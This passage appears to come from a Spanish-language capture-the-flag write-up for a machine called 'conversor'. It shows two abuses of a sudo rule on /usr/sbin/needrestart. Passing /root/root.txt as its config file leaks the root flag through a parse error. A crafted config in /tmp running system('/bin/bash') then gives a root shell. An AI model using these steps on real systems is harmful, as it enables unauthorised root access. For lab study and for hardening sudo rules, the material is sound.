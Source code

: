 - `/usr/sbin/needrestart` es un script de utilidad en sistemas Linux que se utiliza para determinar si hay servicios o procesos que necesitan ser reiniciados debido a la actualización de librerías o binarios. Su función principal es verificar los procesos que están utilizando archivos que han sido actualizados para informar al usuario si necesitan un reinicio para aplicar los cambios.

Para obtener la flag podemos realizar lo siguiente:
```
sudo /usr/sbin/needrestart -c /root/root.txt
Error parsing /root/root.txt: Bareword "c98e6e8eaf96ef9a69c99901b399dc96" not allowed while "strict subs" in use at (eval 14) line 1.
```
sin embargo no escalamos privilegios para ello podemos hacer lo siguiente

- Invocamos una shell en el directorio temporar y lo ejecutamos 

```shell
echo 'system("/bin/bash");' > /tmp/root.sh
```
```shell
sudo /usr/sbin/needrestart -c /tmp/root.sh
```

Finalmente obtenemos una shell con máximos privilegios.
```shell
root@conversor:/home#
```

